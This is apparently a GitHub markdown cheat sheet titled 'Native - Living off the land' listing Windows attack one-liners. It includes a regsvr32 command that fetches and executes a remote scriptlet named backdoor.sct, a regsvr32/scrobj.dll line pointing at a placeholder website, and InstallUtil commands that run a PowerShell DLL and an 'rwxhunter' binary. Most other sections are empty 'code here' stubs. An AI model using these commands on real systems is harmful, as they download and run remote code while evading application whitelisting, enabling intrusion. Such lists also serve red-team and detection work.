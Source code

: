 # Native - Living off the land

## One Liners

### Regsvr32 + sct file + powershell encoded command

    regsvr32.exe /s https://gist.githubusercontent.com/MHaggis/31a1d0efd882d048436aeb7b9fd7f6d0/raw/b96dc20465abfeed3f05ba56b28e2ff91c398606/backdoor.sct

## net.exe

Input:

    code here

Output:

    code here

## Regsvr32.exe

Input:

    code here

Output:

    code here

    regsvr32.exe /s /n /u /i:https://<website>/data scrobj.dll

## waitfor.exe

Input:

    code here

Output:

    code here

## wmic.exe


Input:

    code here

Output:

    code here

## Installutil.exe

Download the two binaries:

Input for pshell.dll:

    C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /logtoconsole=false /U pshell.dll

Input for rwxhunter.exe:

    C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /U rwxhunter.exe
